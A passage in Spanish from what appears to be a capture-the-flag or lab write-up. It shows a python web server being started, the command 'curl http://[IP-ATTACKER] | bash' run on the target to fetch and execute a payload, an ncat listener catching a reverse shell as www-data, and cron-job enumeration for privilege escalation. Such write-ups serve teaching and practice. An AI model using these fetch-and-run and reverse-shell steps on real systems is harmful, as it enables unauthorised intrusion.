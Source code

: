 ```
❯ python3 -m http.server 80
```

- Tercero, ejecutamos lo siguiente en el panel donde podemos ejecutar comandos

```java
curl http://[IP-ATTACKER]| bash
```


![20231106101451.png](20231106101451.png)

- Antes de ejecutar debemos de poner `ncat` a la escucha para recibir la shell

## Escalada de priviliegios

### Usuario www-data

Luego de ejecutar, obtnemos una shell

![20231106101607.png](20231106101607.png)

Antes de ello debemos hacer un tratamieto a la `tty`

Enumerando encontraremos que existe una tarea cron

```java
cat /etc/crontab
```
